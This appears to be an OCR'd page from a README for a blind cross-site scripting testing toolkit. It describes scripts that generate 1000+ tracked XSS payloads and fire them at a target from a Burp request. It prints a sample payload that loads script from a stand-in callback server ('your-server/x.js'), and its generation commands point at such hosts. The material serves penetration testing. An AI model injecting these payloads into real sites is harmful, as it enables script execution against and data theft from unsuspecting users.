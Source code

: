 ```
┌─────────────────────────────────────────────────────────────────┐
│ STEP 3: Automated Testing                                       │
│ $ python3 auto_xss_test.py --request burp.txt \                │
│     --wordlist wordlists/www_input_payloads.txt --threads 5     │
│                                                                  │
│ Browser injects payloads → Target reflects → Callback fires!    │
└─────────────────────────────────────────────────────────────────┘
                              ↓
┌─────────────────────────────────────────────────────────────────┐
│ RESULT: Callback server shows:                                  │
│ 🎯 XSS PAYLOAD HIT!                                             │
│ Payload ID: 123                                                 │
│ From IP: 203.0.113.45                                           │
│ Payload: <script src="https://your-server/x.js?id=123">        │
└─────────────────────────────────────────────────────────────────┘
```

---

## 📜 Scripts

### 1. **blind_xss_generate.py**

**Purpose:** Generate comprehensive XSS payload wordlists with tracking IDs

**What it does:**
- Creates 1000+ XSS payloads (script tags, event handlers, SVG, polyglots, etc.)
- Each payload has a unique `?id=N` parameter for tracking
- Generates 3 wordlist files with different encodings:
  - `www_input_payloads.txt` - Raw (for POST form-urlencoded)
  - `url_payloads.txt` - URL encoded (for GET parameters)
  - `json_input_payloads.txt` - JSON escaped (for POST JSON)

**Usage:**
```bash
# Basic usage
python3 blind_xss_generate.py --server https://your-server.com --file /x.js

# Custom output directory
python3 blind_xss_generate.py \
  --server https://abc123.ngrok.io \
  --file /hook.js \
  --output ./my_payloads
```

**Arguments:**
- `--server` - Your callback server URL (e.g., `https://your-server.com`)
- `--file` - Payload file path on server (default: `/x.js`)
- `--output` - Output directory (default: `./wordlists`)

**Output:**
```
wordlists/
├── www_input_payloads.txt    # For POST form-urlencoded
├── url_payloads.txt          # For GET URL parameters
├── json_input_payloads.txt   # For POST JSON
└── payloads_analysis.txt     # Analysis report
```

---